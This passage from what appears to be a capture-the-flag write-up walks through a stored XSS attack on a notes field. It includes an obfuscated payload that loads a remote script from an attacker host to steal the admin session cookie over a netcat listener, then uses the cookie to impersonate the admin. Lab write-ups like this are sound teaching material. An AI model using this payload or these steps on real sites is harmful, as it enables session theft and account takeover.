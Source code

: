 Then we start our netcat listener to listen on the port we scripted the data to be posted to before pasting our XSS input into the notes field using the filtering bypass we just discovered.

```
<img src="/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,54,49,47,115,101,115,115,105,111,110,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />
```
![img](assets/note_payload.png)

Now it’s a case of waiting and watching our netcat listener for our session data. If everything works correctly the session cookie data should be sent to the output of our netcat listener as shown below.

![img](assets/listener_cookie.png)

We can use this cookie as our own to spoof the admin user, the example below shows this being done using the dev tools built into firefox. The cookie name remains the same but the value should be replaced with the exact cookie that was intercepted on our listener.

![img](assets/firefox_dev.png)
